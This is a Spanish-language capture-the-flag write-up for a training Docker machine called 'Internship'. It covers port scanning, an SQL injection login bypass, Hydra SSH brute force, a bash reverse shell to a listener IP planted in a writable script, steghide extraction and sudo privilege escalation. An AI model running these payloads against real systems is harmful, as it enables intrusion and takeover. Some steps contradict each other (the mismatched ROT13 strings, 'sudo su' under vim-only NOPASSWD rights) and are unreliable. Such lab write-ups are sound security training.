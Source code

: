 # 🧠 **Informe de Pentesting – Máquina: Internship**

### 💡 **Dificultad:** Fácil

![Despliegue](Imágenes/2025-05-19_20-20.png)

---

## 📝 **Descripción de la máquina**

*Internship* es una máquina de dificultad baja diseñada para simular un entorno realista de pasantes que han cometido errores comunes de seguridad, incluyendo malas configuraciones, contraseñas débiles, y almacenamiento inseguro de archivos. Ideal para practicar reconocimiento, inyección SQL, fuerza bruta y escalada de privilegios.

---

## 🎯 **Objetivo**

El objetivo es obtener acceso inicial al sistema, escalar privilegios hasta obtener acceso como `root`, y capturar la flag de cada usuario comprometido.

---

## ⚙️ **Despliegue de la máquina**

Se descomprime el archivo y se lanza el contenedor Docker con el script proporcionado:

```bash
unzip internship.zip
sudo bash auto_deploy.sh backend.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Se verifica conectividad hacia la IP del contenedor con un `ping`:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de Puertos**

Realizamos un escaneo completo para detectar todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

**Puertos detectados:**

* `22/tcp`: SSH
* `80/tcp`: HTTP

![Puertos](Imágenes/Capturas_2.png)

Después, identificamos servicios y versiones:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 **Reconocimiento Web**

Accedemos a `http://172.17.0.3/` y encontramos una página de bienvenida:

![Pagina](Imágenes/Capturas_4.png)

En el código fuente descubrimos el dominio `gatekeeperhr.com`. Para acceder correctamente, lo añadimos al archivo de hosts:

```bash
sudo nano /etc/hosts
```

Agregamos:

```
172.17.0.3 gatekeeperhr.com
```
![Dominio](Imágenes/Capturas_5.png)


Esto nos da acceso a una pantalla de inicio de sesión:

![Registro](Imágenes/Capturas_8.png)

---

## 🧨 **Inyección SQL**

Probamos una inyección simple:

```
Usuario: ' OR 1=1-- -
Contraseña: (cualquier valor)
```

Esta inyección manipula la consulta SQL para que siempre devuelva verdadero, permitiendo el acceso sin credenciales válidas.

![Registro](Imágenes/Capturas_9.png)
![Registro](Imágenes/Capturas_10.png)

Desde la interfaz obtenemos posibles nombres de usuarios.

---

## 🔎 **Fuzzing y Análisis Web**

Fuzzing sobre el dominio revela múltiples rutas interesantes:

```
/about.html
/contact.html
/default
/spam
/includes
/lab
```

![Fuzzing](Imágenes/Capturas_11.png)

En `/spam`, se muestra una pantalla negra, pero el código fuente revela un mensaje cifrado con ROT13:

```
Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3'
```

Descifrado con:

```bash
echo "Yn pbagenfrna qr ab qr ybs cnfnatrf rf 'checy3'" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

Resultado:

```
La contraseña de uno de los pasantes es 'purpl3'
```

---

## 🛠️ **Ataque Fuerza Bruta (Hydra)**

Creamos un archivo `users.txt` con los nombres de los pasantes y realizamos fuerza bruta con Hydra:

```bash
hydra -L users.txt -p purpl3 ssh://172.17.0.3 -t 4
```

Se descubren credenciales válidas:

```
[22][ssh] host: 172.17.0.3   login: pedro   password: purpl3
```

![Hydra](Imágenes/Capturas_12.png)

---

## 🧑‍💻 **Acceso SSH y Primer Flag**

Accedemos vía SSH:

```bash
ssh pedro@172.17.0.3
```

No tiene permisos `sudo`. Encontramos la flag `fl4g.txt` en su home. En `/opt` hay un script `log_cleaner.sh` editable por nosotros. Lo modificamos para lanzar una reverse shell:

```bash
nano log_cleaner.sh
```

Agregamos:

```bash
bash -c "bash -i >& /dev/tcp/192.168.1.84/443 0>&1"
```

Escuchamos la conexión:

```bash
sudo nc -lvnp 443
```

![payload](Imágenes/Capturas_15.png)

---

## 🕵️‍♂️ **Análisis de Archivos Ocultos**

Desde la cuenta `valentina` encontramos la imagen `profile_picture.jpeg`, la copiamos a `/tmp` y damos permisos globales para su análisis:

```bash
cp ~/profile_picture.jpeg /tmp
chmod 777 profile_picture.jpeg
```

![Imagen](Imágenes/Capturas_13.png)

Desde nuestra máquina, la descargamos con:

```bash
scp pedro@172.17.0.3:/tmp/profile_picture.jpeg .
```

Usamos `steghide` para extraer archivos ocultos:

```bash
steghide extract -sf profile_picture.jpeg
```

Nos pide una contraseña, solo presionamos `Enter`. Se extrae `secret.txt`:

```bash
cat secret.txt
```

Contenido:

```
mag1ck
```

![Contraseña](Imágenes/Capturas_14.png)

---

## 🧗‍♂️ **Escalada de Privilegios**

Nos cambiamos a `valentina` con la contraseña `mag1ck`:

```bash
su valentina
```

Verificamos sus privilegios:

```bash
sudo -l
```

Salida:

```
(ALL : ALL) PASSWD: ALL, NOPASSWD: /usr/bin/vim
```

Esto permite escalar a root usando `vim`. Ejecutamos:

```bash
sudo su
```

¡Acceso root conseguido! 🚩

![rott](Imágenes/Capturas_16.png)

---

